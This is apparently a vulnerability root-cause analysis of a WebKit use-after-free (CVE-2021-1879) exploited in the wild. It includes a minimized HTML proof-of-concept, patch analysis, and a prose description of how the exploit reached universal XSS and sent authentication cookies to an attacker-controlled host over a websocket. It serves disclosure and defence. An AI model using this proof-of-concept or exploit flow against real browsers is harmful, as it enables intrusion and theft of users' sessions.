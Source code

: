 # CVE-2021-1879: Use-After-Free in QuickTimePluginReplacement

*Clement Lecigne, Google Threat Analysis Group*

## The Basics

**Disclosure or Patch Date:** 26 March 2021

**Product:** Apple WebKit (Safari)

**Advisory:** https://support.apple.com/en-us/HT212256

**Affected Versions:** 14.4.1 and previous

**First Patched Version:** 14.4.2

**Issue/Bug Report:** https://bugs.webkit.org/show_bug.cgi?id=223561

**Patch CL:**
https://github.com/WebKit/WebKit/commit/629d61f760e57cf322288f528a7fcd318dd14327

**Bug-Introducing CL:**
https://github.com/WebKit/WebKit/commit/5f980f44880269f6e273853961097fcc55cca094
FIXME added in
https://github.com/WebKit/WebKit/commit/9b04ff6bea713b87c903f06b0ac6518bce0d2c4b

**Reporter(s):** Clement Lecigne of Google Threat Analysis Group and Billy
Leonard of Google Threat Analysis Group

## The Code

**Proof-of-concept:**

Minimized version created from the original exploit:

*   index.html:

```html
<script>
var idd = null;
function onl()
{
    idd = document.getElementById("idd");
    idd.onload = null;
    idd.src = 'http://127.0.0.1:8000/exp.html'
}
function f()
{
    idd.onload = g;
    idd.src = "http://127.0.0.1:8000/&foo=1";
}
function g()
{
    idd.onload = null;
    document.getElementById("cur").appendChild(document.createElement("a"));
}
</script>
<body>
<div id="id1"></div>
<div id="cur"></div><br>
<video id="vid"></video>
<iframe id="idd" style="display:none" onload="onl();"></iframe>
</body>
```

*   exp.html:

```html
<script>
var worker = null;
function start()
{
    worker = document.getElementById("worker");
    window.top.document.getElementById("cur").addEventListener("DOMNodeInserted", callback0);
    var intl = setInterval(function(){
        worker.GetURL.a = 777;
        window.top.f();
        clearInterval(intl);
    }, 1);
}
function callback0(ev) {
    window.requestAnimationFrame(callback);
}
function gc() {
    for (let i = 0; i < 0x40; i++) { new ArrayBuffer(0x1000000); }
}
function callback(ev) {
    gc();
    alert(worker.GetURL.a); // UAF here.
}
</script>
<body onload="start();">
<embed id="worker" src="data:video/mp4;"></embed>
</body>
```

**Exploit sample:** N/A

**Did you have access to the exploit sample when doing the analysis?** Yes

## The Vulnerability

**Bug class:** Use-after-free

**Vulnerability details:**

The QuickTimePluginReplacement plugin maintains an internal JSC script object
instance `m_scriptObject` which is wrongly configured and not properly
tracked by the garbage collector. A Use-After-Free can be triggered by referencing
external JSValues into the `m_scriptObject`, these JSValues will be freed while
calling `window.requestAnimationFrame` but their references will still be available
in the `m_scriptOject`.

Comments surrounding the declaration of `m_scriptObject` are actually hinting
for this wrong behavior.

```c
JSC::JSObject* m_scriptObject { nullptr }; // FIXME: Why is it safe to have this pointer here? What keeps it alive during GC?
```

**Patch analysis:**

The code of the plugin has been refactored to replace the "custom" `m_scriptObject`
instance by a `JSValueInWrappedObject` which is safer to use.

**Thoughts on how this vuln might have been found _(fuzzing, code auditing,
variant analysis, etc.)_:**

Technically this vulnerability could have been discovered via fuzzing but in
this specific case the vulnerability was likely discovered by auditing the code
manually. The FIXME added by the WebKit developper probably helped the
discovery.

**(Historical/present/future) context of bug:**

This bug was exploited by Russia/[Nobelium](https://www.microsoft.com/security/blog/2021/05/27/new-sophisticated-email-based-attack-from-nobelium/) to target iPhone users from various government officials. [Google TAG Blog](https://blog.google/threat-analysis-group/how-we-protect-users-0-day-attacks)

## The Exploit

(The terms *exploit primitive*, *exploit strategy*, *exploit technique*, and
*exploit flow* are
[defined here](https://googleprojectzero.blogspot.com/2020/06/a-survey-of-recent-ios-kernel-exploits.html).)

**Exploit strategy (or strategies):**

__Under analysis__

The attacker abused the vulnerability to create a type confusion and forge
powerful addrof/fakeobj primitives.

To ensure stability and avoid crashes during GC, the exploit makes sure to
restore previously corrupted objects before continuing further.

**Exploit flow:**

Once arbitrary read and write is achieved, the exploit modifies the internal
state of the renderer to turn the issue into an universal XSS.

In order to do this, the exploit is following this flow for each targeted
websites.

*   Create a websocket `w` connected to an attacker controled IP.
*   Set `m_universalAccess` to 1 inside the SecurityOrigin class by traversing a
    set of pointers.
*   Create a new URL object `u` poiting to the targeted domain.
*   Overwrite all
    [Document URLS](https://github.com/WebKit/WebKit/blob/88278b55563e5ccdc0b3419c6c391c3becc19e40/Source/WebCore/dom/Document.h#L1728)
    of the websocket `w` with the ones from the `u` URL.
*   Overwrite
    [m_url](https://github.com/WebKit/WebKit/blob/88278b55563e5ccdc0b3419c6c391c3becc19e40/Source/WebCore/dom/Document.h#L1728)
    field of the websocket `w` with the `u` URL.
*   Trigger a send on the websocket.
*   At the end of the websocket, attacker receives requests as they would be
    delivered to the targeted websites `u` including the authentication cookies
    for the targeted websites.

**Known cases of the same exploit flow:**

* Modifying `m_universalAccess` to bypass the same-origin policy is documented in this ["Attacking Javascript Engines" Phrack article](http://phrack.org/papers/attacking_javascript_engines.html).

**Part of an exploit chain?**

The exploit we discovered was only using this single bug. A sandbox escape was not required.

## The Next Steps

### Variant analysis

**Areas/approach for variant analysis (and why):**

*   To find very close variants, manually review similar issues in the other
    plugins where `JSC::JSObject` are used.
*   Manual audit `FIXME` comments left in source code and hinting at
    potential use-after-free bug.
*   Fuzz HTML elements with same callback sequences, potentially with a tool
    like [Domato](https://github.com/googleprojectzero/domato).

**Found variants:** N/A

### Structural improvements

What are structural improvements such as ways to kill the bug class, prevent the
introduction of this vulnerability, mitigate the exploit flow, make this type of
vulnerability harder to exploit, etc.?

**Ideas to kill the bug class:**

**Ideas to mitigate the exploit flow:**

*   Implementing [site isolation](https://www.chromium.org/Home/chromium-security/site-isolation) in WebKit like it's done in Firefox or Chrome.

**Other potential improvements:** N/A

### 0-day detection methods

What are potential detection methods for similar 0-days? Meaning are there any
ideas of how this exploit or similar exploits could be detected **as a 0-day**?

These types of exploits are likely hard to detect generically.

## Other References

* July 2021: ["How We Protect Users From 0-Day Attacks"](https://blog.google/threat-analysis-group/how-we-protect-users-0-day-attacks
) by Google's Threat Analysis Group gives context about how this exploit was used.
* February 2020: [Forget the Sandbox Escape: Abusing Browsers from Code Execution](https://www.youtube.com/watch?v=a0yPYpmUpIA)
    by Amy Burnett